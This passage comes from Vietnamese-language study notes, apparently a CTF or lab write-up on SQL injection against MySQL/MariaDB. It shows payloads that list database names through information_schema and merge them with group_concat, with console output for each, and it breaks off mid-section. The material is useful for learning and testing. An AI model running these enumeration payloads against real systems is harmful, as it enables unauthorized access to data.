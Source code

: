     

- Ngoài sử dụng `SELECT DATABASE()` để lấy ra tên của *database* hiện tại đang sử dụng, ta còn có thể truy xuất ra toàn bộ các *database* được người ra đề tạo ra

  - Payload:

    ```mysql
    SELECT schema_name FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT schema_name FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema');
    +--------------+
    | schema_name  |
    +--------------+
    | sqlinjection |
    | xssuser      |
    +--------------+
    2 rows in set (0.00 sec)
    
    ```

    

- Nhưng những payload trên đa số là xuất ra nhiều chuỗi (nhiều dòng), ta nên kết hợp *group_concat* để để nối chúng thành 1 chuỗi để xuất ra thành 1 dòng

- VD:

  - Payload: 

    ```mysql
    SELECT group_concat(schema_name) FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema')
    ```

    ```mysql
    MariaDB [xssuser]> SELECT group_concat(schema_name) FROM information_schema.schemata WHERE schema_name not in ('information_schema', 'mysql', 'performance_schema');
    +---------------------------+
    | group_concat(schema_name) |
    +---------------------------+
    | sqlinjection,xssuser      |
    +---------------------------+
    1 row in set (0.00 sec)
    ```

    

- Ngoài trích xuất ra số lượng *column* bằng

  - Payload: 
